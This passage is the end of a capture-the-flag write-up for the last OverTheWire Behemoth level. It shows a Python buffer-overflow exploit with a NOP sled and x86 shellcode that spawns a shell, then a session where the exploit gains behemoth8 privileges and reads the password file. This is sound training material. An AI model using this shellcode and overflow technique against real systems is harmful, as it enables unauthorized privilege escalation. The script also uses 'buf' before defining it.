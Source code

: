 We can see that the program did in fact zero out the environment variables,
which would have appeared right above the program image name on the stack. We
can also see our `nop` sled and shellcode at the bottom of the argument buffer;
let's pick an address somewhere in the middle and write our final exploit
script.

{% highlight python %}
# exploit.py
import struct

address = 0xffffd17f
shellcode = 'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'

buf += 'A'*536
buf += struct.pack('<I', address)
buf += '\x90'*1000
buf += shellcode

print buf
{% endhighlight %}

{% highlight bash %}
behemoth7@melinda:/tmp/purplecandle$ /behemoth/behemoth7 `python exploit.py`
$ id
uid=13007(behemoth7) gid=13007(behemoth7) euid=13008(behemoth8) groups=13008(behemoth8),13007(behemoth7)
$ cat /etc/behemoth_pass/behemoth8
XXXXXXXXXX
{% endhighlight %}

And that's the final challenge for [Behemoth].

[Narnia]: http://overthewire.org/wargames/narnia/
[Behemoth]: http://overthewire.org/wargames/behemoth/
[OverTheWire]: http://overthewire.org
[BinaryNinja]: http://binary.ninja
[IDA]: https://www.hex-rays.com/products/ida/index.shtml
[Hex Rays]: https://www.hex-rays.com/products/decompiler/index.shtml
[pwndbg]: https://github.com/pwndbg/pwndbg
[PEDA]: https://github.com/longld/peda
[Voltron]: https://github.com/snare/voltron
[pwntools]: https://github.com/Gallopsled/pwntools
